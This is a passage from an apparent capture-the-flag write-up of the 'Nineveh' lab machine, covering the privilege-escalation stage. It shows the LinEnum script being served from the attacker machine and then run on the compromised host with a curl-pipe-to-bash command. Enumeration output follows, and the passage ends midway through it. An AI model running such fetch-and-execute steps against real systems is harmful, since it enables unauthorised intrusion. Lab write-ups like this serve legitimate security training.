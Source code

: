 ###### Privilege Escalation using chkrootkit (enumerating processes)

```sh
root@kali:~/nineveh# git clone https://github.com/rebootuser/LinEnum.git
Cloning into 'LinEnum'...
remote: Counting objects: 98, done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 98 (delta 4), reused 8 (delta 4), pack-reused 86
Unpacking objects: 100% (98/98), done.
root@kali:~/nineveh# cd LinEnum/
root@kali:~/nineveh/LinEnum# ls -l
total 52
-rw-r--r-- 1 root root  2784 Jan 26 03:22 CHANGELOG.md
-rw-r--r-- 1 root root   418 Jan 26 03:22 CONTRIBUTORS.md
-rwxr-xr-x 1 root root 38174 Jan 26 03:22 LinEnum.sh
-rw-r--r-- 1 root root  3384 Jan 26 03:22 README.md
root@kali:~/nineveh/LinEnum#
```

```sh
root@kali:~/nineveh/LinEnum# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.43 - - [26/Jan/2018 03:25:37] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
www-data@nineveh:/var/www/html/department$ curl http://10.10.14.6/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 38174  100 38174    0     0  46583      0 --:--:-- --:--:-- --:--:-- 46553

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

Debug Info
thorough tests = disabled


Scan started at:
Fri Jan 26 02:25:56 CST 2018


### SYSTEM ##############################################
Kernel information:
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017


Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
```